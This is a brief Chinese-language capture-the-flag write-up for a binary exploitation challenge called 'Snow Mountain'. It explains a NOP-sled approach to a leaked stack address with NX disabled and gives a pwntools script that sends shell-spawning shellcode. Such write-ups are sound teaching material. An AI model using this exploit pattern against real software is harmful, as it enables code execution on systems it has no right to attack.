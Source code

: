 # Snow Mountain

这题关闭了NX保护，说明需要布置shellcode，难点在于找到shellcode位置。程序首先给出一个栈上的随机地址，并且栈上存在一个`0x1000`的字符数组。根据题目提示"滑雪"、"雪橇"等，容易想到利用nop sled滑到shellcode的位置来增加容错率。想到nop sled的话这题就做完了。

```py
ru('position: 0x')
cur = int(ru('\n'),16)
leak('cur',cur)
payload = asm(shellcraft.sh())
payload = payload.rjust(0x1000-1,'\x90')
sla('> ',payload)
sla('> ',hex(cur))
```